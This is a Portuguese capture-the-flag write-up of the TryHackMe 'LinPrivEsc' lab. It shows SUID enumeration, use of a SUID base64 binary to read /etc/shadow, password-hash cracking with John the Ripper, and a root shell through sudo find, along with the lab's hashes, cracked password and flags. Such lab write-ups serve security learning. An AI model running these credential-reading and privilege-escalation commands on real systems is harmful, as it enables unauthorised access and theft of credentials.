



<div class="page"/>

# **Pós-Exploração - Linux PrivEsc | Sonael de A. Angelos Neto**

- ### **Escalação de Privilégios No Linux**

  A Escalação de privilégios em Linux refere-se ao processo de aumentar as permissões de um usuário ou processo para acessar recursos que normalmente exigem níveis mais altos de permissões. Isso pode ser necessário para executar certas tarefas, como instalar software ou realizar alterações no sistema operacional que exigem privilégios de administrador.

  A Escalação de privilégios geralmente é feita por meio de vulnerabilidades de segurança ou explorações de software que permitem que um invasor obtenha acesso de nível mais alto do que o permitido. Essa é uma das principais razões pelas quais a segurança é uma preocupação importante em sistemas Linux e por que é importante manter o sistema operacional atualizado com as últimas correções de segurança.

  Para evitar a Escalação de privilégios não autorizada, é recomendável que os usuários e administradores de sistemas limitem o acesso aos recursos do sistema somente a usuários com as permissões adequadas e usem ferramentas de segurança, como firewalls e antivírus, para proteger o sistema contra vulnerabilidades conhecidas e ameaças de segurança.

- ### **Quais são as formas de Escalação de Privilégios?**

  Existem diversas formas de elevar os privilégios em sistemas Linux, mas é importante ressaltar que a maioria dessas técnicas requer acesso ao sistema ou exploração de vulnerabilidades de segurança. Algumas das formas de elevar o privilégio em Linux são:

  - Explorar vulnerabilidades em softwares instalados no sistema.

  - Usar técnicas de engenharia social para obter informações de autenticação de usuários privilegiados.
  
  - Aproveitar-se de permissões inadequadas em arquivos ou diretórios.
  
  - Usar exploits de kernel para obter acesso root ao sistema.
  
  - Utilizar ferramentas especializadas de hacking que automatizam a busca e exploração de vulnerabilidades em sistemas Linux.
  
  - Usar técnicas de injeção de código para executar comandos maliciosos com privilégios de root.
  
  Para evitar a elevação de privilégios não autorizada, é importante manter o sistema atualizado com as últimas correções de segurança e limitar o acesso aos recursos do sistema somente a usuários com as permissões adequadas. Além disso, o uso de soluções de segurança, como firewalls e antivírus, também pode ajudar a proteger o sistema contra vulnerabilidades conhecidas e ameaças de segurança.

---

<div class="page"/>

## **<center>Sumário</center>**

  **Esse documento é um passo a passo de como eu resolvi a máquina do TryHackMe chamada "LinPrivEsc".**

  1. #### ***<a href="#1">Exploração e Enumeração.</a>***
  2. #### ***<a href="#2">Escalação de Privilégio Horizontal.</a>***
  3. #### ***<a href="#3">Escalação de Privilégio Vertical.</a>***


### **Complementos:**

   4. #### ***<a href="#4">Dificuldades.</a>***
   5. #### ***<a href="#5">Conclusão.</a>***
   6. #### ***<a href="#6">Referências.</a>***
   7. #### ***<a href="#7">Links p/ Laboratório.</a>***
  
---

## **<a id="1"> • Exploração e Enumeração.</a>**

A primeira coisa que devemos fazer é explorar uma máquina é ir atrás de programas que possam nós ajudar a escalar os privilégios.

Sabendo disso, vamos começar vendo quais programas o `sudo` permite que nosso usuário execute, para isso vamos utilizar o comando `sudo -l`.

```bash
[leonard@ip-10-10-45-203 /]$ sudo -l
[sudo] password for leonard: 
Sorry, user leonard may not run sudo on ip-10-10-45-203.
```

Como podemos ver, o usuário `leonard` não pode executar o `sudo` em nenhum programa.

Agora vamos tentar da uma olhada no arquivo `etc/shadow` para ver se conseguimos obter alguma hash de senha.

```bash
[leonard@ip-10-10-45-203 /]$ cat /etc/shadow
cat: /etc/shadow: Permission denied
```

Temos a permissão negada, então vamos continuar tentando.

<div class="page"/>

o proximo passo é verificar se existe algum programa que esteja com o bit SUID (Set User ID) ativado, pois como sabemos, programas com o bit SUID ativado, quando executados, são executados com os privilégios do dono do arquivo.

Para isso, vamos utilizar o comando `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`.

```bash
[leonard@ip-10-10-45-203 /]$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwsr-xr-x. 1 root root 37360 Aug 20  2019 /usr/bin/base64
-r-xr-sr-x. 1 root tty 15344 Jun 10  2014 /usr/bin/wall
-rwsr-xr-x. 1 root root 61320 Sep 30  2020 /usr/bin/ksu
-rwsr-xr-x. 1 root root 32096 Oct 30  2018 /usr/bin/fusermount
-rwsr-xr-x. 1 root root 27856 Apr  1  2020 /usr/bin/passwd
-rwsr-xr-x. 1 root root 78408 Aug  9  2019 /usr/bin/gpasswd
-rwsr-xr-x. 1 root root 73888 Aug  9  2019 /usr/bin/chage
-rwsr-xr-x. 1 root root 41936 Aug  9  2019 /usr/bin/newgrp
---s--x---. 1 root stapusr 212080 Oct 13  2020 /usr/bin/staprun
-rws--x--x. 1 root root 23968 Sep 30  2020 /usr/bin/chfn
-rwsr-xr-x. 1 root root 32128 Sep 30  2020 /usr/bin/su
-rws--x--x. 1 root root 23880 Sep 30  2020 /usr/bin/chsh
-rwsr-xr-x. 1 root root 2447304 Apr  1  2020 /usr/bin/Xorg
-rwsr-xr-x. 1 root root 44264 Sep 30  2020 /usr/bin/mount
-rwsr-xr-x. 1 root root 31984 Sep 30  2020 /usr/bin/umount
-rwxr-sr-x. 1 root tty 19544 Sep 30  2020 /usr/bin/write
-rwsr-xr-x. 1 root root 57656 Aug  9  2019 /usr/bin/crontab
-rwsr-xr-x. 1 root root 23576 Apr  1  2020 /usr/bin/pkexec
---x--s--x. 1 root nobody 382216 Aug  9  2019 /usr/bin/ssh-agent
-rwsr-xr-x. 1 root root 53048 Oct 30  2018 /usr/bin/at
-rwxr-sr-x. 1 root cgred 15632 Aug  9  2019 /usr/bin/cgclassify
-rwxr-sr-x. 1 root cgred 15608 Aug  9  2019 /usr/bin/cgexec
---s--x--x. 1 root root 147336 Sep 30  2020 /usr/bin/sudo
-rwx--s--x. 1 root slocate 40520 Apr 11  2018 /usr/bin/locate
-rwxr-sr-x. 1 root mail 19824 Nov 28  2017 /usr/bin/lockfile
-rwsr-xr-x. 1 root root 11232 Apr  1  2020 /usr/sbin/pam_timestamp_check
-rwsr-xr-x. 1 root root 36272 Apr  1  2020 /usr/sbin/unix_chkpwd
-rwxr-sr-x. 1 root root 11224 Oct 13  2020 /usr/sbin/netreport
-rwsr-xr-x. 1 root root 11296 Oct 13  2020 /usr/sbin/usernetctl
-rws--x--x. 1 root root 40328 Aug  9  2019 /usr/sbin/userhelper
-rwx--s--x. 1 root lock 11208 Jun 10  2014 /usr/sbin/lockdev
-rwxr-sr-x. 1 root postdrop 218560 Apr  1  2020 /usr/sbin/postdrop
-rwxr-sr-x. 1 root postdrop 264128 Apr  1  2020 /usr/sbin/postqueue
-rwsr-xr-x. 1 root root 117432 Sep 30  2020 /usr/sbin/mount.nfs
-rwxr-sr-x. 1 root smmsp 836920 Apr  1  2020 /usr/sbin/sendmail.sendmail
-rwsr-xr-x. 1 root root 15432 Apr  1  2020 /usr/lib/polkit-1/polkit-agent-helper-1
-rwx--s--x. 1 root utmp 15568 Sep 30  2020 /usr/lib64/vte-2.91/gnome-pty-helper
---x--s--x. 1 root ssh_keys 465760 Aug  9  2019 /usr/libexec/openssh/ssh-keysign
-rwsr-xr-x. 1 root root 11128 Oct 13  2020 /usr/libexec/kde4/kpac_dhcp_helper
-rwxr-sr-x. 1 root nobody 53064 Apr 20  2018 /usr/libexec/kde4/kdesud
-rwx--s--x. 1 root utmp 11192 Jun 10  2014 /usr/libexec/utempter/utempter
-rwsr-x---. 1 root dbus 57936 Sep 30  2020 /usr/libexec/dbus-1/dbus-daemon-launch-helper
-rwsr-xr-x. 1 root root 15448 Apr  1  2020 /usr/libexec/spice-gtk-x86_64/spice-client-glib-usb-acl-helper
-rwsr-xr-x. 1 root root 15360 Oct  1  2020 /usr/libexec/qemu-bridge-helper
-rwsr-x---. 1 root sssd 157872 Oct 15  2020 /usr/libexec/sssd/krb5_child
-rwsr-x---. 1 root sssd 82448 Oct 15  2020 /usr/libexec/sssd/ldap_child
-rwsr-x---. 1 root sssd 49592 Oct 15  2020 /usr/libexec/sssd/selinux_child
-rwsr-x---. 1 root sssd 27792 Oct 15  2020 /usr/libexec/sssd/proxy_child
-rwsr-sr-x. 1 abrt abrt 15344 Oct  1  2020 /usr/libexec/abrt-action-install-debuginfo-to-abrt-cache
-rwsr-xr-x. 1 root root 53776 Mar 18  2020 /usr/libexec/flatpak-bwrap
```

Dentre todos esses arquivos, o que mais chama atenção é `/usr/bin/base64`. Procurando no GTFOBins, encontrei uma forma de executar comandos com ele:



## **<a id="2"> • Escalação de Privilégio Horizontal.</a>**

O `/usr/bin/base64` é um programa que converte arquivos em base64, e é executável por qualquer usuário. Isso significa que qualquer usuário pode executar esse programa e, consequentemente, ler qualquer arquivo do sistema.

Então vamos usar o base64 para ler o arquivo `/etc/shadow` utilizando os comandos que estão no GTFOBins:

```bash
[leonard@ip-10-10-45-203 /]$ LFILE=/etc/shadow
[leonard@ip-10-10-45-203 /]$ base64 "$LFILE" | base64 --decode
root:$6$DWBzMoiprTTJ4gbW$g0szmtfn3HYFQweUPpSUCgHXZLzVii5o6PM0Q2oMmaDD9oGUSxe1yvKbnYsaSYHrUEQXTjIwOW/yrzV5HtIL51::0:99999:7:::
bin:*:18353:0:99999:7:::
daemon:*:18353:0:99999:7:::
adm:*:18353:0:99999:7:::
lp:*:18353:0:99999:7:::
sync:*:18353:0:99999:7:::
shutdown:*:18353:0:99999:7:::
halt:*:18353:0:99999:7:::
mail:*:18353:0:99999:7:::
operator:*:18353:0:99999:7:::
games:*:18353:0:99999:7:::
ftp:*:18353:0:99999:7:::
nobody:*:18353:0:99999:7:::
pegasus:!!:18785::::::
systemd-network:!!:18785::::::
dbus:!!:18785::::::
polkitd:!!:18785::::::
colord:!!:18785::::::
unbound:!!:18785::::::
libstoragemgmt:!!:18785::::::
saslauth:!!:18785::::::
rpc:!!:18785:0:99999:7:::
gluster:!!:18785::::::
abrt:!!:18785::::::
postfix:!!:18785::::::
setroubleshoot:!!:18785::::::
rtkit:!!:18785::::::
pulse:!!:18785::::::
radvd:!!:18785::::::
chrony:!!:18785::::::
saned:!!:18785::::::
apache:!!:18785::::::
qemu:!!:18785::::::
ntp:!!:18785::::::
tss:!!:18785::::::
sssd:!!:18785::::::
usbmuxd:!!:18785::::::
geoclue:!!:18785::::::
gdm:!!:18785::::::
rpcuser:!!:18785::::::
nfsnobody:!!:18785::::::
gnome-initial-setup:!!:18785::::::
pcp:!!:18785::::::
sshd:!!:18785::::::
avahi:!!:18785::::::
oprofile:!!:18785::::::
tcpdump:!!:18785::::::
leonard:$6$JELumeiiJFPMFj3X$OXKY.N8LDHHTtF5Q/pTCsWbZtO6SfAzEQ6UkeFJy.Kx5C9rXFuPr.8n3v7TbZEttkGKCVj50KavJNAm7ZjRi4/::0:99999:7:::
mailnull:!!:18785::::::
smmsp:!!:18785::::::
nscd:!!:18785::::::
missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::
```

Agora temos duas hashes de senhas: uma do usuário `missy` e outra do usuário `root`. Vamos usar o John The Ripper para quebrar as hashes.

<div class="page"/>

Primeiro vamos tentar quebra a hash do usuário `missy`. Vamos salvar a hash em um arquivo chamado `hash.missy`:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/Try_Hack_Me/linprivesc                                                                            12:27:22
╰──➤ cat hash_missy
$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/

╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/Try_Hack_Me/linprivesc                                                                            12:21:37
╰──➤ john --wordlist=/usr/share/wordlists/rockyou.txt hash_missy
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (?)
1g 0:00:00:02 DONE (2023-03-03 12:21) 0.4132g/s 1480p/s 1480c/s 1480C/s adriano..fresa
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

O John The Ripper conseguiu quebrar a hash do usuário `missy` com a senha `Password1`. Vamos tentar quebrar a hash do usuário `root`:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/Try_Hack_Me/linprivesc                                                                            12:22:36
╰──➤ john --wordlist=/usr/share/wordlists/rockyou.txt hash_root
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:04:37 3.81% (ETA: 14:23:55) 0g/s 2271p/s 2271c/s 2271C/s lavette3..lardbutt
Session aborted
```

O John the ripper não conseguiu quebrar a hash do usuário `root`. Então vamos logar no usuário `missy` com a senha `Password1`.

```bash
[leonard@ip-10-10-45-203 /]$ su missy
Password: 
[missy@ip-10-10-45-203 /]$
```

Conseguimos logar no usuário `missy` com a senha `Password1` e olhando as pastas desse usuário conseguimos achar a primeira flag em `/home/missy/Documents`:

```bash
[missy@ip-10-10-45-203 Documents]$ cat flag1.txt 
THM-42828719920544
```

Agora que já temos a primeira flag, vamos tentar executar o comando `sudo -l` para ver se conseguimos executar algum comando com privilégios de root.

```bash
[missy@ip-10-10-45-203 /]$ sudo -l
Matching Defaults entries for missy on ip-10-10-45-203:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME
    HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User missy may run the following commands on ip-10-10-45-203:
    (ALL) NOPASSWD: /usr/bin/find
```

O comando `sudo -l` nos mostra que o usuário `missy` pode executar o comando `/usr/bin/find` sem precisar de senha. Pesquisando no [GTFOBins](https://gtfobins.github.io/) sobre o comando `find` conseguimos achar uma forma uma shell atraves do comando `find` com privilégios de root.



## **<a id="3"> • Escalação de Privilégio Vertical.</a>**

Então vamos utilizar o comando `sudo find . -exec /bin/sh \; -quit` para obter uma shell com privilégios de root.

```bash
[missy@ip-10-10-45-203 Documents]$ sudo find . -exec /bin/sh \; -quit
sh-4.2# whoami
root
```

Agora que temos uma shell com privilégios de root, vamos procurar a segunda flag.

Durante a exploração eu notei que existe uma pasta chamada `/home/rootflag` e olhando o conteúdo dessa pasta conseguimos a segunda flag:

```bash
sh-4.2# cat flag2.txt 
THM-168824782390238
```

Para concluirmos o desafio basta infomar as flags na plataforma do Try Hack Me.



---

## **<a id="4">• Dificuldades.</a>**

*Nenhuma dificuldade relevante. =}* 

---

## **<a id="5">• Conclusão.</a>**

Em conclusão, a elevação de privilégios em sistemas Linux é um processo de aumento de permissões de um usuário ou processo para acessar recursos que normalmente exigem níveis mais altos de permissões. Embora seja essencial para a execução de algumas tarefas, a elevação de privilégios também pode representar um risco de segurança se for explorada de forma inadequada.

Existem várias formas de elevar os privilégios em sistemas Linux, incluindo a exploração de vulnerabilidades de segurança, o uso de técnicas de engenharia social, a exploração de permissões inadequadas em arquivos ou diretórios, o uso de exploits de kernel e o uso de ferramentas especializadas de hacking.

Para evitar a elevação de privilégios não autorizada, é fundamental implementar medidas de segurança adequadas, como manter o sistema atualizado com as últimas correções de segurança, limitar o acesso aos recursos do sistema somente a usuários com as permissões adequadas e usar soluções de segurança, como firewalls e antivírus.

Em suma, a elevação de privilégios em sistemas Linux é uma questão de segurança crítica que requer atenção constante e medidas preventivas para proteger o sistema contra ameaças internas e externas.

---

## **<a id="6">• Referências.</a>**

- [SUID Executables](https://pentestlab.blog/2017/09/25/suid-executables/)
  
- [GTFOBins](https://gtfobins.github.io)

- [Privilege Escalation on Linux](https://delinea.com/blog/linux-privilege-escalation)

- [ChatGPT](https://chat.openai.com/chat)

---

## **<a id="7">• Laboratório.</a>**

  - [Linux Privilege Escalation](https://tryhackme.com/room/linprivesc)
